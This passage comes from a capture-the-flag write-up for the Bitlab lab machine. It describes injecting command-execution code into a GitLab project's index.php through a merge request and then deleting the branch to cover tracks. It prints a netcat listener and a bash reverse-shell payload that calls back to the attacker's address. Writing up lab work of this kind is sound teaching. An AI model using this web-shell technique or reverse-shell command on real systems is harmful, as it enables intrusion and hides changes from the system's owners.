 <img src="{{ site.img_path }}/bitlab_writeup/Bitlab_36.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

Before starting the enumeration phase of the engaged system, I make a quick investigation in the other project (**Deployer**), in whose **index.html** file I find the code that seems to be in charge of managing the **Profile** project's merge through the `git pull` command. I also find another cleaner way to access the system, which is to directly modify the **index.php** file of the **Profile** project and inject the code to execute commands. After creating the merge request and performing it, I also remove the source branch to make the attack cleaner. Now by accessing the **Profile** project and using the **cmd** parameter I can execute commands again to get a **Reverse Shell**.

```bash
# http://10.10.10.114/root/profile/edit/master/index.php
# I'm create a new branch and then later merge that into master (this whill trigger the update)
# Start a new merge request with these changes (enable) --> Commit changes --> Submit merge request
# Merge -->  Remove source branch (enable - clean up after myself)

# http://10.10.10.114/profile/?cmd=whoami
# :)

nc -nlvp 443
# http://10.10.10.114/profile/?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.14.20/443 0>%261'
```

<br />
<img src="{{ site.img_path }}/bitlab_writeup/Bitlab_37.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bitlab_writeup/Bitlab_38.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bitlab_writeup/Bitlab_39.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bitlab_writeup/Bitlab_40.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bitlab_writeup/Bitlab_41.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bitlab_writeup/Bitlab_42.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bitlab_writeup/Bitlab_43.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/bitlab_writeup/Bitlab_44.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bitlab_writeup/Bitlab_45.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bitlab_writeup/Bitlab_46.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bitlab_writeup/Bitlab_47.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

